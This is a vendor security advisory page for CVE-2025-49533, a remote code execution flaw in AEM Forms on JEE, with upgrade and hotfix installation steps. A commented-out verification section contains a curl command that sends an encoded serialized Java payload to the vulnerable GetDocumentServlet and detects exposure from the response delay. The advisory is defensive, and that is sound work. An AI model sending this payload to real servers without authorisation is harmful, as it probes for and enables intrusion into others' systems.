 ```yaml
---
title: Mitigating Remote Code Execution Vulnerability for AEM Forms on JEE (CVE-2025-49533)
description: Mitigating Remote Code Execution Vulnerability for AEM Forms on JEE (CVE-2025-49533)
contentOwner: khsingh
products: SG_EXPERIENCEMANAGER/6.5/FORMS
solution: Experience Manager, Experience Manager Forms
feature: Developing
role: Admin
---
```


# Mitigating Remote Code Execution Vulnerability for AEM Forms on JEE (CVE-2025-49533) 

This document provides guidance on addressing a critical security concern (CVE-2025-49533) in AEM Forms on JEE that could potentially allow unauthorized code execution through an unsecured servlet. 

## Understanding AEM Forms Deployment Types

This vulnerability affects different AEM Forms deployments differently. Understanding your deployment type is crucial for determining the appropriate mitigation steps.

### Affected version

* All AEM Forms on JEE versions from 6.0 through 6.5 are affected by this vulnerability. Only AEM Forms 6.5 and its service packs are currently maintained and supported. All other versions (6.0-6.4) have reached end-of-life (EOL).

### Fix Versions 

* AEM 6.5 Forms Service Pack 23 with hotfix provided to fix the vulnerability. 

### Co-deployed vs. Standalone AEM Forms on JEE Deployments

**Co-deployed (AEM Forms + CQ EAR):**

* Both AEM Forms JEE and AEM (CQ) author and publish Enterprise Application Archive (EAR) are deployed together on the same application server
* Provides unified environment with both Forms capabilities and AEM content management

**AEM Forms on JEE Standalone:**

* AEM Forms is deployed on the application server with only JEE components, and without any AEM EAR.
* Limited to JEE-specific features and functionality of AEM Forms

### How to Identify Your Deployment Type

To definitively determine the deployment type, check what artifacts are actually deployed on the application server. Typically, but not limited to, via the server's Administration Console.

**Co-deployed indicators:**

* The `/lc` endpoint is accessible on your server (e.g., `https://your-server/lc`)
* You can access AEM author/publish endpoints. 
* URL structure includes AEM paths like `/content/`, `/apps/`, `/etc/`
* AEM content management features are available alongside Forms

**Standalone indicators:**

* Only Admin UI interfaces are accessible
* No AEM author/publish functionality
* Limited to Forms JEE-specific URLs and interfaces


## Affected Versions

| Product | Versions Requiring Mitigation | Versions Eligible for Hotfix |
|---------|-----------------------------|-----------------------------|
| Adobe Experience Manager 6.5 Forms on JEE | All Adobe Experience Manager 6.5 Forms on JEE standalone installations| AEM 6.5 Service Pack 18 through Service Pack 23 |

## Resolution

### Version-Specific Solutions

| AEM Forms Version | Required Action |
|---|---|
| AEM 6.5 Forms Service Pack 18 - Service Pack 22 with AEM author or publish EAR co-deployed|  [Upgrade to AEM 6.5 Service Pack 23 or later](/help/release-notes/release-notes.md)  |
| AEM 6.5 Forms Service Pack 18 - Service Pack 23 without AEM author or publish EAR co-deployed (For standalone AEM Forms on JEE deployment)| [Apply hotfix](#apply-the-hotfix) |
| AEM 6.5 Forms Service Pack 17 and earlier | 1.  [Upgrade to AEM 6.5 Service Pack 23 or later](/help/release-notes/release-notes.md) <br> 2. For standalone AEM Forms on JEE deployments, [apply the hotfix](#apply-the-hotfix). |

> **Note**: AEM Forms officially supports only the six most recent service packs. Users on older versions should first upgrade to the latest service pack and then implement the required security measures.

## Deployment Considerations

### For Clustered Environments

When working with a clustered deployment:

* Apply hotfix installation on **all nodes** in the cluster
* Maintain consistency by using identical hotfix versions across all servers
* Complete updates on all nodes before initiating any service restarts
* Verify the fix on each node independently using the verification steps

### For Single Node Environments

When working with a AEM Fomrs on JEE standalone deployment:

* Follow a simplified process as there are no additional nodes to manage
* Complete all hotfix installation steps as instructed

<!-- ## Vulnerability Verification

Before implementing the fix, verify if your system is vulnerable by executing the following tests:

### Test Commands

#### 1. Test with Exploitable Payload
```bash
curl -o /dev/null -s -w "Total time: %{time_total}\n" https://${FORMS_HOST}/FormServer/GetDocumentServlet?serDoc=H4sIAAAAAAAAAK1WTWxbRRCetR3bsZI2P80fhf4HkpS%2Bl5C2aXFEyA9tXV5IUEw4%2BGCtnxfnlffX3X3E6YEDElKvCC4ckRAcKIdISFQckLhy5gRCQkLigAQcygGp4md2nxOnIWqSNpH8dndmd76Zb2dmc%2Bc3aBEc%2Bm7Qt6gRScc1FrkTcEeuvRqxiH3w%2FegX96feWU9CogAp4dxiFuTswAsppzLgEnotddJUJ83ZTXm%2BHgJAAg2fDXjNoCG1V5iB57zAF0aFUV8dEMYMzpqnfv7o9q%2Fi1MfXEpB4AOUmvA3EgmzIg5BxuSahK0Z1qV8zlyR3%2FBoiItrUDmh24LrMlk4837ApjAZuxWVND%2B7%2F%2BeHgXX99IgFQDyV0BJEMI7kY4zpMrKYwrCQCPY%2BWDBH5xhbAOkV%2FDMeXjPvUNerClbYhOa0bReaFLpVMFHBsfX3hG%2F%2FOZ%2BNJSBegvez4VebLVyKvwngBDpXxgC9cJgsor5cgV66sSWYHVSYkJEulmRKky7ZLBS67SltomFWyvAUtZZ96TFGWsqCzvD2CB2%2BsKY9vDP7Fv4hroJf%2FHuip1X6IuVC3ifJEaebOvb6%2F0tniTw1x%2BtK3%2F3z1Naqfg%2FEMjBEYXxOBYNyhrhnSNTegVRFjXaXVGpPizJKMKsVGkIvxjgykCLyIlJpIqYmUmjGlpqbU3KDU1JSaPPKl4zFzuiKQLFtuGMtAmsARHZwTmEvaB%2BeWumACHbFLy4wLTITXCnMEyHUC7bOYFZL6cpm6EWv5%2FMT799778Y8XCKQnHd%2BROEkODS8TSM3iBeQgCR1t0AbtBA5bjs%2FiSyvGCF1WYCMARRhcN4QpueIIAhesRyAlT6BVJ8MbAfcI8CFrrwTNLcznSzvu9tzmXtEgiPEmV6pKrlG%2F6jKeV3HnXqrbLNS1k4EBApf36sJGLJvnCWSrgR15mOsEzu0rFDy6EvuEVM48fmAEPtkfl7siVqVnzhXnp%2BuOKKBId8AD4T%2FrNMypHHoULwhkGtwRmD4A5nJLQcRtdsVR2d3WyF5D1RwuC77PuO5DDNPlGQLHd0l7At07JD6GPWm7jfrraHa44gpnqleMEHyyXMZCrK%2Bh68PLbfAsnMvBWTCwoJcktd%2Bcp2GjAJ9serC4it6NTYxdnLh8cfzC%2BbFRbFbHrIfp83ASsAPgrwV%2FT0AGsji2ql4IOUjhHHsBfg%2BhxMSR4Ngy8iUcXtdbOvGb1kITuvDbFm%2BAbuyVgPMe6MVdfThXpvq1mSn1vijtdhPntYkTsbJhArRXR7UeQ4Wn8IQye%2Bx%2FZgt6tYPZS9rsSKzc0exxBE3o2Uk4hfBZGN4MWq2Vrv1TSBKrs%2Fv2u3fBXNebR3UgROlPa8wzMIhjTtP0NAxBa6TeqA7c%2B93mC3I0AwkCp3drlleCQL8YW3JjoXID3%2FjHfwFu%2FuL8Puld7T%2FoF2Bw1xcAg9pffQ3spb6SaPahWUz2nsWT27L4iNb36G%2BvTrjYXD%2BCtOJ%2FTymsKB6uEqirm26v%2FwfLba%2FhawoAAA%3D%3D
```

#### 2. Test with Non-Exploitable Payload
```bash
curl -o /dev/null -s -w "Total time: %{time_total}\n" https://${FORMS_HOST}/FormServer/GetDocumentServlet?serDoc=1234
```

**Note**: Replace `${FORMS_HOST}` with your actual Forms server hostname and port.

### Vulnerability Confirmation
* **Vulnerable System**: Response time ≥ 5 seconds for exploitable payload
* **Secure System**: Response time ~600ms for both payloads
* **Indicator**: Significant difference in response times confirms the vulnerability -->

## Mitigation Steps

### For Servers with CQ EAR co-deployed

* Check if AEM EAR is co-deployed within your JEE instance
* If AEM author or publish EAR co-deployed, [upgrade to AEM 6.5 Service Pack 23 or later](/help/release-notes/release-notes.md)

### For Servers without CQ EAR co-deployed (AEM Forms on JEE Standalone)

#### Verify AEM Forms version

1. Ensure you have administrative access to AEM Workbench.
1. [Ensure your AEM Forms version](https://experienceleaguecommunities.adobe.com/t5/adobe-experience-manager/how-find-the-aem-forms-version-using-the-aem-admin-or-system/m-p/603733) is AEM 6.5 Forms Service Pack 18  through Service Pack 23.

#### Apply the hotfix

1. **Download the hotfix:**
   * Access Adobe Software Distribution to download the [hotfix](https://nam04.safelinks.protection.outlook.com/?url=https%3A%2F%2Fexperience.adobe.com%2F%23%2Fdownloads%2Fcontent%2Fsoftware-distribution%2Fen%2Faem.html%3Fpackage%3D%2Fcontent%2Fsoftware-distribution%2Fen%2Fdetails.html%2Fcontent%2Fdam%2Faem%2Fpublic%2Fadobe%2Fpackages%2Fcq650%2Fhotfix%2FAEM%25206.5%2520Unauthenticated%2520RCE%2520in%2520LiveCycle&data=05%7C02%7Ckhsingh%40adobe.com%7Cf29c8505258840beed0408ddbe2956ff%7Cfa7b1b5a7b34438794aed2c178decee1%7C0%7C0%7C638875806949179671%7CUnknown%7CTWFpbGZsb3d8eyJFbXB0eU1hcGkiOnRydWUsIlYiOiIwLjAuMDAwMCIsIlAiOiJXaW4zMiIsIkFOIjoiTWFpbCIsIldUIjoyfQ%3D%3D%7C0%7C%7C%7C&sdata=0GELRBKwhkAFB6fmXNIsbsruBXquhhWX1BMGySEZutY%3D&reserved=0).
   * Save the hotfix file to your local machine
   * Verify the integrity of the downloaded file

2. **Install the hotfix:**
   * Open **AEM Workbench**
   * Connect to the impacted AEM Forms server
   * Navigate to **Window → Show View → Components**
   * Right-click in the Components view and select "Install Component"
   * Browse and select the hotfix file
   * Follow the installation wizard prompts and wait for completion

3. **Wait and validate:**
   * Wait for all services to fully initialize

#### Troubleshooting

**Common Issues:**

* Verify all AEM Forms services have started correctly 
* Check application server logs for any installation errors

